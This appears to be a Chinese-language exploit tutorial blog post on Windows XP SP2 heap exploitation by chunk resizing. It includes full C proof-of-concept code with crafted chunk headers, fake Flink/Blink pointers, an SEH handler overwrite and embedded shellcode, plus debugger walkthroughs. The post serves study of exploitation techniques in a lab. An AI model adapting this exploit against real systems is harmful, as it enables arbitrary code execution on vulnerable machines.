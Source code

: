 ```yaml
---
layout:		post
title:		利用chunk重设大小攻击堆
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp2 x86  
>编译器: VC++ 6.0  
>调试器: OllyDbg 1.10  
>注意: 原版的OD没法在FreeList操作指令断下, 可以用吾爱破解OD  
>原理: XP系统只有在堆链表删除操作时才尽兴Safe Unlink检查, 那么只要在堆分配时完成劫持, 就不会触发该机制  
<!-- more -->


### 0x00 前期准备

新建一个工程, 贴入以下代码

```
#include "stdafx.h"
#include <stdio.h>
#include <windows.h>
#include <stdlib.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90";

int main(int argc, char* argv[])
{
	HLOCAL h1,h2;
	HANDLE hp;

	hp = HeapCreate(0,0x1000,0x10000);
	__asm int 3
	h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,3);
	h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,5);
	memcpy(h1,shellcode,3);
	memcpy(h2,shellcode,5);

	return 0;
}
```

OD附加上去, 单步到完成两次分配

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x00.png)

堆表起始于0x00390178, 堆块起始于0x00390680

```
# 第1块
Self Size = 00 04 # 0x04*8=0x20 bytes, 请求3 bytes
Previous chunk Size = 00 08
Cookie = 01
Flags = 07
Unused bytes = 1D # 0x20-0x03=0x1D bytes
Segment index = 00

# 第2块
Self Size = 00 04 # 0x04*8=0x20 bytes, 请求5 bytes
Previous chunk Size = 00 04
Cookie = 05
Flags = 07
Unused bytes = 1B # 0x20-0x05=0x1B bytes
Segment index = 00

# 第3块(空闲大chunk, 未使用)
Self Size = 01 28 # 0x128*8=0x940 bytes, 0x980 - 0x20 * 2 = 0x940
Previous chunk Size = 00 04
Cookie = EE
Flags = 14
Unused bytes = EE
Segment index = 00
```

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x01.png)

可以看到这两个chunk的尾部还留有剩余空间, 发现原版OD在调试堆时有问题, 以下该用吾爱破解OD

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x02.png)

再重新看一下堆结构

```
# 第1块
Self Size = 00 02 # 0x02*8=0x10 bytes, 请求3 bytes
Previous chunk Size = 00 08
Cookie = 78
Flags = 01
Unused bytes = 0D # 0x10-0x03=0x0D bytes
Segment index = 00

# 第2块
Self Size = 00 02 # 0x02*8=0x10 bytes, 请求5 bytes
Previous chunk Size = 00 02
Cookie = 7A
Flags = 01
Unused bytes = 0B # 0x10-0x05=0x0B bytes
Segment index = 00

# 第3块(空闲大chunk, 未使用)
Self Size = 01 2C # 0x12C*8=0x960 bytes, 0x980 - 0x10 * 2 = 0x960
Previous chunk Size = 00 02
Cookie = 00
Flags = 10
Unused bytes = 00
Segment index = 00
```

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x03.png)


### 0x01 exploit

贴入以下代码

```
#include "stdafx.h"
#include <stdio.h>
#include <windows.h>

char shellcode[]=  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x10\x01\x10\x00\x99\x99\x99\x99"		// Header
"\xEB\x06\x39\x00\xEB\x06\x39\x00"		// Flink Blink
"\x90\x90\x90\x90\x90\x90\x90\x90"  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"  
"\xEB\x31"		// short jmp
"\x90\x90\x90\x90\x90\x90"  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"  
"\x11\x01\x10\x00\x99\x99\x99\x99"		// Header
"\x8C\x06\x39\x00\xE4\xFF\x12\x00"		// fake Flink Blink
"\x90\x90\x90\x90"  
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7";

int main(int argc, char* argv[])
{
	HLOCAL h1,h2;
	HANDLE hp;

	hp = HeapCreate(0,0x1000,0x10000);
	h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	memcpy(h1,shellcode,300);
	h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	
	int zero=0;
	zero=1/zero;
	printf("%d",zero);

	return 0;
}
```

单步到完成第一次分配

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x04.png)
![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x05.png)

在0x7c931513处下断

```
lea eax,dword ptr ds:[edi+0x8]		// 获取新chunk的Flink位置
mov dword ptr ss:[ebp-0xF0],eax
mov edx,dword ptr ds:[ecx+0x4]		// 获取下一新chunk中的Blink的值
mov dword ptr ss:[ebp-0xF8],edx
mov dword ptr ds:[eax],ecx 			// 保存新chunk的Flink
mov dword ptr ds:[eax+0x4],edx		// 保存新chunk的Blink
mov dword ptr ds:[edx],eax			// 保存下一chunk中的Blink->Flink的Flink
ov dword ptr ds:[ecx+0x4],eax		// 保存下一chunk中的Blink
```

[0x003A06B8] = 0x003A06EB, 新chunk->Flink = 旧chunk->Flink

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x06.png)

[0x003A06B8+4] = 0x0012FFE4, 新chunk->Blink = 旧chunk->Flink->Blink

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x07.png)
![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x08.png)

[0x0012FFE4] = 0x003A06B8, 旧chunk->Flink->Blink->Flink = 新chunk, 触发任意写

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x09.png)

现在S.E.H链尾节点的Handler已经改写成堆地址

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x0a.png)

[0x003A06EB+4] = 0x003A06B8, 旧chunk->Flink->Blink = 新chunk

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x0b.png)

当触发异常, 转入shellcode执行

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x0c.png)

pwn~

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x0d.png)

最后还有点问题, 吾爱破解OD加载时堆基址是0x003A0000, 直接运行要改成0x00390000
